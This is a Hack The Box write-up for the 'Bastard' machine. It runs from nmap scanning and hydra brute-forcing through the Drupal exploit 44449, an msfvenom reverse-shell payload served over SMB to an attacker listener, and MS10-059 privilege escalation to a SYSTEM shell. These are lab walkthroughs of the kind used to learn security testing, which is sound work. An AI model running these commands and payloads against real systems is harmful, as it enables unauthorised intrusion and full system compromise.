 # [Bastard](https://app.hackthebox.eu/machines/7)

Start off with `nmap`:

```bash
sudo nmap -sS -sC -p1-65535      --open -Pn 10.10.10.9 # deep scan 
sudo nmap -sS -sC --top-ports=20 --open -Pn 10.10.10.9 # quick scan
```

The quick scan returns the following results:

![nmap](./bastard/nmap.png)

Start the following website scans in the background:

```bash
dirb http://10.10.10.9 -r
nikto -h http://10.10.10.9 --maxtime=30s
```

Manually browsing to the website shows the following:

![website](./bastard/website.png)

Trying to create a new `admin` user results in the following error message:

![email](./bastard/email.png)

Knowing that, it is possible to try a bruteforce login. Looking at the HTML source for the login form makes the following `hydra` command:

![login](./bastard/login.png)

```bash
cp /usr/share/wordlists/rockyou.txt.gz .
gunzip rockyou.txt.gz
hydra -vV -f -I\
  -l admin \
  -P ./rockyou.txt \
  10.10.10.9 \
  http-post-form \
  "/user:name=^USER^&pass=^PASS^&form_build_id=form-u-hJquQU3XK9ojjz_PHQUZBmL7qzIAA65bMHASkwt_I&form_id=user_login:unrecognized"
```

However, after running `hydra`, it returns quickly saying it found a login. Trying this password gives a new error:

![error](./bastard/error.png)

So no luck here... Looking at the output from `nikto` shows an interesting header:

![nikto](./bastard/nikto.png)

With a version tied to a service, looking for an exploit is now feasible: 

![drupal](./bastard/drupal.png)

There are a few interesting ones here and 44449 looks like it has plenty of version coverage. Running that Ruby script generates an error that can be fixed by installing another Ruby package `highline`:

```bash
searchsploit -m 44449
sudo gem install highline
ruby 44449.rb http://10.10.10.9
```

The script asks for a target URL, and running it provides a basic remote command execution shell!

![exploit](./bastard/exploit.png)

The exploit provides the ability to upload and execute a dedicated shell with the following:

```bash
# make payload
msfvenom -p windows/shell_reverse_tcp \
         LHOST=10.10.14.23 \
         LPORT=6969 \
         –e x86/shikata_ga_nai \
         -i 9 \
         -f exe > bubba.exe
# host payload over SMB
sudo impacket-smbserver BUBBA ./
# start listener
nc -nvlp 6969
# execute in-memory through ruby exploit shell
start /B \\10.10.14.23\BUBBA\bubba.exe
```

And that provides the dedicated shell:

![shell](./bastard/shell.png)

Looking for interesting user files gets us `user.txt`:

```bash
dir "C:\Users\" /a /b /s 2>nul | findstr /v /i "Favorites\\" | findstr /v /i "AppData\\" | findstr /v /i "Microsoft\\" |  findstr /v /i "Application Data\\"
```

![user](./bastard/user.png)

During enumeration and loking at the `systeminfo` output, there seem to be no patches/hotfixes installed. There may be a kernel exploit to use?

```bash
systeminfo
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

![systeminfo](./bastard/systeminfo.png)

Using `wesng` (https://github.com/bitsadmin/wesng) it only shows 3 possible exploits for privilege escalation:

```bash
git clone https://github.com/bitsadmin/wesng.git
python wesng/wes.py --update
# save target systeminfo output to systeminfo.txt
python wesng/wes.py ./sysinfo.txt -o ./vulns.csv -e
sort -t ',' -k 1 vulns.csv | awk -F '","' '{print $1" | "$2}'
```

![wesng](./bastard/wesng.png)

However, of the 3, only https://www.exploit-db.com/exploits/15609 seems possible but the exploit description does not list the target's kernel in the supported list from the `syteminfo` output (`6.1.7600 N/A Build 7600`) so this exploit is likely to not work. Moving on...

```bash
Windows Vista/2008 6.1.6000 x32,
Windows Vista/2008 6.1.6001 x32,
Windows 7 6.2.7600 x32,
Windows 7/2008 R2 6.2.7600 x64. # not 6.1.7600 Build 7600 ...
```

However, since this OS is old it is likely that this tool is missing some possible exploits. In the `README.md` for https://github.com/bitsadmin/wesng it says the following:

> I developed WES-NG because while [GDSSecurity's Windows-Exploit-Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester/) worked excellently for operating systems in the Windows XP and Windows Vista era, GDSSecurity's Windows-Exploit-Suggester does not work for  operating systems like Windows 10 and vulnerabilities published in  recent years. This is because Microsoft replaced the Microsoft Security  Bulletin Data Excel file [1] on which GDSSecurity's  Windows-Exploit-Suggester is fully dependent, by the MSRC API [2]. The  Microsoft Security Bulletin Data Excel file has not been updated since  Q1 2017, so later operating systems and vulnerabilities cannot be  detected. Thanks [@gdssecurity](https://twitter.com/gdssecurity), for this great tool which has served many of us for so many years!

So just to be sure, check this against the older tool:

```bash
# download and install
git clone https://github.com/AonCyberLabs/Windows-Exploit-Suggester.git
curl https://bootstrap.pypa.io/get-pip.py -o get-pip.py
python2.7 get-pip.py
python2.7 -m pip install xlrd
cd Windows-Exploit-Suggester/
# download old DB version
python2.7 windows-exploit-suggester.py --update
# run the tool
python2.7 windows-exploit-suggester.py --database 2020-09-09-mssb.xls --systeminfo ../sysinfo.txt
```

The tool returns the following output:

![wesng2](./bastard/wesng2.png)

There are a few exploits listed that have PoC code here https://github.com/SecWiki/windows-kernel-exploits/. Specifically MS10-059 looks promising. Try downloading and executing it:

```bash
# download
axel -n 20 -a https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS10-059/MS10-059.exe
# execute on target in-memory from kali SMB share
\\10.10.14.23\BUBBA\MS10-059.exe
```

The following usage statement is printed:

![MS10-059](./bastard/MS10-059.png)

So setting up a new listener and running the following command on the target gives a SYSTEM shell!

```bash
\\10.10.14.23\BUBBA\MS10-059.exe 10.10.14.23 7777
```

![root](./bastard/root.png)


